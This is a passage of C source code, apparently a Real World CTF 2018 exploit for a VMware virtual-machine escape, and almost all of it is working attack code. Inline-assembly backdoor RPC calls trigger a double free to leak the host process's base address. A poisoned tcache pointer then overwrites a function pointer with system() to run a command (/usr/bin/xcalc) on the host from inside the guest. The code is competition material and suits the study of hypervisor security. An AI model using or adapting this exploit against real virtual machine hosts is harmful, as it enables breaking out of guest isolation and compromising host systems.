        "1:\n\t"
        "movq %%r8,%%rbp\n\t"
        "add %%r12,%%rbp\n\t"
        "movl (%%rbp),%%ebx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0002001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "addq $4,%%r12\n\t"
        "cmpq %%r12,%%r11\n\t"
        "ja 1b\n\t"
        "movl %%ecx,(%%r10)\n\t"
        "popq %%rbp\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10","%r11","%r12"
        );
}

void channel_recv_reply_len(int cookie1,int cookie2,int channel_num,int *len,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%r8,%%r10\n\t"
        "movq %%rcx,%%r11\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0003001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        "movl %%ebx,(%%r11)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10","%r11"
       );

}

void channel_recv_data(int cookie1,int cookie2,int channel_num,int offset,char *data,int *res){
    asm("pushq %%rbp\n\t"
        "movq %%r9,%%r10\n\t"
        "movq %%r8,%%rbp\n\t"
        "movq %%rcx,%%r11\n\t"
        "movq $1,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0004001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "in %%dx,%%eax\n\t"
        "add %%r11,%%rbp\n\t"
        "movl %%ebx,(%%rbp)\n\t"
        "movl %%ecx,(%%r10)\n\t"
        "popq %%rbp\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10","%r11","%r12"
       );
}

void channel_recv_finish(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x1,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}

void channel_recv_finish21(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x21,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}

void channel_close(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0006001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}

struct channel{
    int cookie1;
    int cookie2;
    int num;
};

void run_cmd(char *cmd) {
    struct channel tmp = { 0, };
    int res = 0,
        len = 0,
        i = 0;
    char *data = NULL;

    channel_open(&tmp.cookie1, &tmp.cookie2, &tmp.num, &res);
    if(!res) {
        printf("fail to open channel!\n");
        return;
    }
    channel_set_len(tmp.cookie1, tmp.cookie2, tmp.num, strlen(cmd), &res);
    if(!res) {
        printf("fail to set len\n");
        return;
    }
    channel_send_data(tmp.cookie1, tmp.cookie2, tmp.num, strlen(cmd)+0x10, cmd, &res);

    channel_recv_reply_len(tmp.cookie1, tmp.cookie2, tmp.num, &len, &res);
    if(!res) {
        printf("fail to recv data len\n");
        return;
    }
    printf("recv len: %d\n", len);

    data = malloc(len+0x10);
    memset(data, 0, len+0x10);
    for(int i = 0; i < len+0x10; i += 4) {
        channel_recv_data(tmp.cookie1, tmp.cookie2, tmp.num, i, data, &res);
    }
    printf("recv data: %s\n",data);

    channel_recv_finish(tmp.cookie1, tmp.cookie2, tmp.num, &res);
    if(!res) {
        printf("fail to recv finish\n");
    }

    channel_close(tmp.cookie1, tmp.cookie2, tmp.num, &res);
    if(!res) {
        printf("fail to close channel\n");
        return;
    }
}

void hex_dump64(void* buf, size_t len) {
    uint64_t *p = (uint64_t *)buf;
    uint8_t *end = (uint8_t *)buf + len;

    puts("=====================================");
    if (len >= 0x10) {
        for (; (uint8_t *)(p+2) <= end; p+=2) {
            printf("0x%016lx 0x%016lx\n", p[0], p[1]);
        }
    }
    if (len % 0x10 >= 8) {
        printf("0x%016lx ", p[0]);
        if (len % 0x10 == 8) {
            putchar('\n');
            return;
        }
        p += 1;
    }
    if (len % 8 > 0) {
        uint64_t tmp = 0;
        for (size_t i = len % 8; i > 0; i--) {
            tmp |= p[i];
            tmp <<= 8;
        }
        printf("0x%016lx\n", tmp);
    }
    puts("=====================================");
}

uint64_t elf_base = 0;

void leak() {
    struct channel chan[4] = { 0, };
    char *cmd = NULL;

    // 'A'*0xe8
    run_cmd("info-set guestinfo.a AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    run_cmd("tools.capability.dnd_version 4");

    int res = 0, len = 0;
    char *data = NULL;

    /* chan[0]: prepare to free 0x100 chunk */
    cmd = "info-get guestinfo.a";
    channel_open(&chan[0].cookie1, &chan[0].cookie2, &chan[0].num, &res);

    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, strlen(cmd), &res);
    printf("chan[0]: channel_set_len: %ld\n", strlen(cmd));

    channel_send_data(chan[0].cookie1, chan[0].cookie2, chan[0].num, strlen(cmd), cmd, &res);
    printf("chan[0]: channel_send_data: %s\n", cmd);

    channel_recv_reply_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, &len, &res);
    printf("chan[0]: channel_recv_reply_len: %d\n", len);

    data = malloc(len+0x10);
    memset(data, 0, len+0x10);
    for(int i = 0; i < len; i += 4) {
        channel_recv_data(chan[0].cookie1, chan[0].cookie2, chan[0].num, i, data, &res);
    }
    printf("chan[0]: recv data: %s\n",data);

    /* chan[1]: prepare to alloc 0x100 chunk */
    cmd = "info-get guestinfo.a";
    channel_open(&chan[1].cookie1, &chan[1].cookie2, &chan[1].num, &res);

    channel_set_len(chan[1].cookie1, chan[1].cookie2, chan[1].num, strlen(cmd), &res);
    printf("chan[1]: channel_set_len: %ld\n", strlen(cmd));

    channel_send_data(chan[1].cookie1, chan[1].cookie2, chan[1].num, strlen(cmd)-4, "info-get guestin", &res); // except last 4 byets
    printf("chan[1]: channel_send_data: %s\n", "info-get guestin");

    /* chan[0]: free 0x100 chunk */
    channel_recv_finish21(chan[0].cookie1, chan[0].cookie2, chan[0].num, &res);
    printf("chan[0]: channel_recv_finish21\n");

    /* chan[1]: alloc 0x100 chunk */
    channel_send_data(chan[1].cookie1, chan[1].cookie2, chan[1].num, 4, "fo.a", &res); // send last 4 byets
    printf("chan[1]: channel_send_data: %s\n", "fo.a");

    /* chan[0]: free 0x100 chunk again */
    channel_recv_reply_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, &len, &res);
    printf("chan[0]: channel_recv_reply_len: %d\n", len);
    channel_recv_finish21(chan[0].cookie1, chan[0].cookie2, chan[0].num, &res);
    printf("chan[0]: channel_recv_finish21\n");

    /* overwrite 0x100 chunk */
    run_cmd("vmx.capability.dnd_version");
    // printf("[!] b *$rebase(0x00000000001896bd)");
    // getchar();

    /* chan[1]: leak 0x100 chunk data */
    channel_recv_reply_len(chan[1].cookie1, chan[1].cookie2, chan[1].num, &len, &res);
    printf("chan[1]: channel_recv_reply_len: %d\n", len);

    memset(data, 0, len+0x10);
    for(int i = 0; i < len; i += 4) {
        channel_recv_data(chan[1].cookie1, chan[1].cookie2, chan[1].num, i, data, &res);
    }
    //hex_dump64(data, len);
    elf_base = ((uint64_t *)data)[0] - 0xf819b0;
    printf("[+] elf base: %p\n", elf_base);

    free(data);
}

void exploit() {
    uint64_t target_fn = elf_base + 0xFE95A0 + 0x8;
    uint64_t target_param = elf_base + 0xFE95A0 + 0x10;
    uint64_t system_plt = elf_base + 0xECFD0;
    uint64_t param_buf = elf_base + 0xFE95A0 - 0x18;

    struct channel chan[6] = { 0, };
    char *cmd = NULL;
    char *data = NULL;
    int res = 0, len = 0;

    // 'B'*0x38
    run_cmd("info-set guestinfo.b BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB");

    for (int i = 0; i < 4; i++)
        channel_open(&chan[i].cookie1, &chan[i].cookie2, &chan[i].num, &res);

    /* chan[0]: alloc 0x50 chunk */
    cmd = "info-get guestinfo.b";
    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, strlen(cmd), &res);
    channel_send_data(chan[0].cookie1, chan[0].cookie2, chan[0].num, strlen(cmd), cmd, &res);
    channel_recv_reply_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, &len, &res);
    data = malloc(len+0x10);
    memset(data, 0, len+0x10);
    for(int i = 0; i < len; i += 4) {
        channel_recv_data(chan[0].cookie1, chan[0].cookie2, chan[0].num, i, data, &res);
    }
    printf("chan[0]: recv data: %s\n",data);

    /* chan[0]: free 0x50 chunk */
    channel_recv_finish21(chan[0].cookie1, chan[0].cookie2, chan[0].num, &res);
    printf("chan[0]: channel_recv_finish21\n");

    /* chan[1]: alloc 0x50 chunk */
    channel_set_len(chan[1].cookie1, chan[1].cookie2, chan[1].num, 0x40, &res);

    /* chan[0]: free 0x50 chunk again */
    channel_recv_reply_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, &len, &res);
    channel_recv_finish21(chan[0].cookie1, chan[0].cookie2, chan[0].num, &res);
    printf("chan[0]: channel_recv_finish21\n");

    /* chan[1]: fake 0x50 tcache next ptr */
    channel_send_data(chan[1].cookie1, chan[1].cookie2, chan[1].num, 8, (char *)&param_buf, &res); // fake next
    printf("chan[1]: channel_send_data: %p\n", target_fn);

    /* chan[3]: overwrite target_fn and target_param */
    channel_set_len(chan[2].cookie1, chan[2].cookie2, chan[2].num, 0x40, &res);
    channel_set_len(chan[3].cookie1, chan[3].cookie2, chan[3].num, 0x40, &res);

    // char *param = "gnome-calculator";
    char *param = "/usr/bin/xcalc";
    uint64_t payload[0x48/8] = { 0, };
    memcpy((char *)payload, param, strlen(param)+1);
    payload[3] = 0x4943505200000001; // flag magic
    payload[4] = system_plt;
    payload[5] = param_buf;

    printf("b *$rebase(0x000000000018958F)");
    getchar();
    channel_send_data(chan[3].cookie1, chan[3].cookie2, chan[3].num, 0x18+0x18, payload, &res);
    printf("chan[3]: channel_send_data: %s %p %p\n", param, system_plt, param_buf);

    free(data);
}

int main(int argc, char *argv[]) {
    leak();
    exploit();
    return 0;
}

// gcc -static -o exp ./RWCTF2018_vmescape.exp.c
```


